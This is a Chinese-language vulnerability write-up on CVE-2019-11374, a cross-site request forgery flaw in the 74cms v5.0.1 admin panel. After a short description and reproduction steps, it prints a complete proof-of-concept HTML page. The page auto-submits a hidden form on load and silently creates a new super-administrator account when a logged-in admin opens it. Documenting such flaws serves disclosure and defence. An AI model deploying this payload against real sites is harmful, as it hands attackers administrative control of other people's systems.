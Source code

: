 <h1>（CVE-2019-11374）74cms v5.0.1 后台跨站请求伪造(CSRF)漏洞</h1>
<h2>一、漏洞简介</h2>
<p>在74CMS v5.0.1后台存在一个跨站请求伪造(CSRF)漏洞，该漏洞url：/index.php?m=admin&c=admin&a=add
攻击者可以利用该漏洞诱骗管理员点击恶意页面，从而任意添加一个后台管理员账户，达到进入后台，获得一个后台管理员角色的控制权。</p>
<h2>二、漏洞影响</h2>
<p>74CMS v5.0.1</p>
<h2>三、复现过程</h2>
<p>首先我们登录后台页面，并添加管理员，然后添加信息，用burp_suite抓包</p>
<p>当管理员登录后台后，点击攻击者发来的连接即可创建一个新的超级管理员账户</p>
<p>
<!DOCTYPE html>
<html>
  <head>
  <title> CSRF </title>
  <script type="text/javascript">
    function exec1(){
      document.getElementById('form1').submit();
    }
  </script>
  </head>
  <body onload="exec1();">
    <form id="form1" action="https://www.0-sec.org.com/index.php?m=Admin&c=admin&a=add" method="POST">
      <input type="hidden" name="username" value="admin688" />
  <input type="hidden" name="email" value="111111111@qq.com" />
      <input type="hidden" name="password" value="admin688" />
      <input type="hidden" name="repassword" value="admin688" />  
  <input type="hidden" name="role_id" value="1" />
    </form>
  </body>
</html>
</p>
<h2>参考链接</h2>
<p>https://www.023niu.com/show-62-32-1.html</p>
